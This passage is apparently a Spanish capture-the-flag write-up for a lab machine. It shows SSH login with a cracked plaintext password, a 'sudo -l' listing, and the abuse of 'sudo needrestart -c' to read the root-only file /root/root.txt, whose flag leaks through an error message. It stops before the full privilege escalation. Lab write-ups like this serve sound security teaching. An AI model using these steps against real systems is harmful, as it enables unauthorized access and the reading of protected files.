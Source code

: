 Como se puede apreciar encontramos la contraseña de todos los ususarios 
![alt text](Imagenes/Conversion3.png)

## Intrusion en ssh 

Como podemos ver el usuario que más llama la atencion es el primero que precisamente es el único ususario que aparece en el sistema por lo tanto para mayor comodidad vamos a entrar por ssh

```shell 
ssh fismathack@10.10.11.98 | Keepmesafeandwarm
```
Finalmente accedemos por ssh y descubrimos la primera flag.


## Escalada de privilegios 

Para la escalada compruebo primero que permisos tengo y si puedo ejecutar algo con `sudo` de la siguiente manera:

```shell
fismathack@conversor:/home$ sudo -l
Matching Defaults entries for fismathack on conversor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User fismathack may run the following commands on conversor:
    (ALL : ALL) NOPASSWD: /usr/sbin/needrestart
```

- `/usr/sbin/needrestart` es un script de utilidad en sistemas Linux que se utiliza para determinar si hay servicios o procesos que necesitan ser reiniciados debido a la actualización de librerías o binarios. Su función principal es verificar los procesos que están utilizando archivos que han sido actualizados para informar al usuario si necesitan un reinicio para aplicar los cambios.

Para obtener la flag podemos realizar lo siguiente:
```
sudo /usr/sbin/needrestart -c /root/root.txt
Error parsing /root/root.txt: Bareword "c98e6e8eaf96ef9a69c99901b399dc96" not allowed while "strict subs" in use at (eval 14) line 1.
```
sin embargo no escalamos privilegios para ello podemos hacer lo siguiente
